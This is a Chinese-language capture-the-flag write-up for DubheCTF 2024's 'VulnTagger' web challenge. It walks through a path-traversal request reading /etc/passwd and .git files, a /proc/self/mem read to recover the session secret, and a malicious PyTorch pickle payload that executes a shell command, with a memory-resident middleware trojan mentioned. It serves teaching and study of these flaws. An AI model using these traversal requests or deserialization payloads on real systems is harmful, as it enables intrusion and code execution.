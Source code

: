 # VulnTagger

Anime images tagger online, but vulnerable. (DubheCTF 2024)

## 题面

是黑盒题，题面只有环境地址。

题目是一款名为 VulnTagger 的图片标注工具，可以上传图片，并由预设的模型进行标注。

> [!NOTE]
> 这里的模型是来自于 DeepDabooru 的开源项目，[AUTOMATIC1111 把他移植到了 PyTorch](https://github.com/AUTOMATIC1111/TorchDeepDanbooru/)。

### 题目描述

> You're right, but "TorchDeepDanbooru" is an anime image labeling model trained by AUTOMATIC1111. The story takes place on a model inference interface written by a mysterious developer, where selected images are granted "tags" to guide information classification. You will play a role named "hacker", encountering PyTorch model weights in the process of image classification, and defeating information chaos with them to find back the lost accurate tags - meanwhile, gradually breaking the program's confidentiality and integrity.

<details>

<summary>Hint</summary>

> 1. 本题为传统 Web 题，不包含 AI 元素，请放心食用
> 2. 背景图片挺好看的，看看它从哪来？
> 3. 版本控制工具是个好东西，出题人很喜欢用。

</details>

## Writeup

> [!NOTE]
> 感觉泄露源码这里出的确实有点脑电波了，给各位师傅谢罪（土下座）

观察请求的路径，发现存在一个 `/static/` 路由，用来传送首页的背景图片。这个路由存在路径穿越，我们可以很容易地通过以下请求来读取 `/etc/passwd`：

```http
GET /static/../../../../../../../../etc/passwd HTTP/1.1
```

> [!TIP]
> 其实 `/static//etc/passwd` 也是可以的。

此时，我们可以用 GitHack 来读取源码。在 `/static/` 目录下，我们通过路径穿越等等手段找到`.git`目录，然后通过 GitHack 工具来读取源码。

```http
GET /static//proc/self/cwd/.git/HEAD HTTP/1.1
```

使用工具读取 `.git` 目录，我们可以得到源码来进行分析。

阅读代码，我们可以关注到存在一个`/admin`路由，它需要登录来访问。

```python
def authorization_middleware(credentials: CredentialsDep):
    if not SALTED_PASSWORD:
        logger.warning(
            "SALTED_PASSWORD not set, you will not be able to access admin page"
        )

    if credentials is not None and (
        compare_digest(credentials.username, "admin")
        and compare_digest(
            hashlib.sha256(
                f"{PASSWORD_SALT}{credentials.password}{PASSWORD_SALT}".encode()
            ).hexdigest(),
            SALTED_PASSWORD,
        )
    ):
        app.storage.browser["is_admin"] = True
    is_admin = app.storage.browser.get("is_admin", False)
    if not is_admin:
        raise HTTPException(
            status_code=401,
            detail="Unauthorized",
            headers={"WWW-Authenticate": "Basic"},
        )
    return is_admin
```

然而……`SALTED_PASSWORD` 是一个空值，我们无法通过正常的登录来访问这个路由。

通过源码审计，我们得知，`app.storage.browser` 是在用户的浏览器中存储的，我们只要获取到 secret 就能够登录：

```python
def main():
    from nicegui import ui_run

    ui_run.APP_IMPORT_STRING = "vulntagger:app"

    ui.run(
        host=environ.get("HOST"),
        port=int(environ.get("PORT", 8080)),
        title="VulnTagger",
        storage_secret=secrets.token_urlsafe(16),
        show=False,
        uvicorn_logging_level="info",
        log_config={...},
        access_log=True,
    )
```

其中，`secret` 是通过 `secrets.token_urlsafe(16)` 生成的，实际是是一个 22 位的字符串，满足 `[\w-]{22}`。

而由于静态文件的路由实现了`Range`请求，在内部对文件进行 seek 操作，我们可以通过遍历`/proc/self/mem`来读取内存中的数据，并且寻找满足要求的能够成功验证 token 的 secret。

读取 secret 伪造 token 的代码可以参考 [`mem_travesal.py`](./exploits/mem_travesal.py), 这里不再赘述。

修改 token 后我们应当能够成功访问到`/admin`路由。

在`/admin`路由中，我们可以看到一个上传新模型的功能，通过源码审计可以得知，PyTorch 的模型是通过 Pickle 序列化后进行持久化的，而在加载时如果不通过 `weights_only=True` 参数，就会导致反序列化攻击。

```python
payload_code = '__import__("os").system("touch /tmp/pwned")'

dic = OrderedDict()
dic.__reduce__ = lambda: (
    eval,
    (payload_code,),
)

torch.save(dic, "evil.pt")
```

在 RCE 之后，我们并没有办法直接得到 Flag。注意到[`bot.py`](./bot.py)文件，它会定时的构造包含特定请求头的请求，并且检查返回的结果是否符合预期。如果连续五次检查结果都符合预期，它将执行`/readflag`来将 Flag 发送到服务。

> [!TIP]
> 这其实就是题目描述中 _meanwhile, gradually breaking the program's confidentiality and integrity._ 的含义

此时，我们需要构造一个内存马，来为请求添加一个自己构造的中间件，以此来通过 Bot 的检查。具体构造请参考 [`evil_weight.py`](./exploits/evil_weight.py) 和 [`mem_trojan.py`](./exploits/mem_trojan.py)。
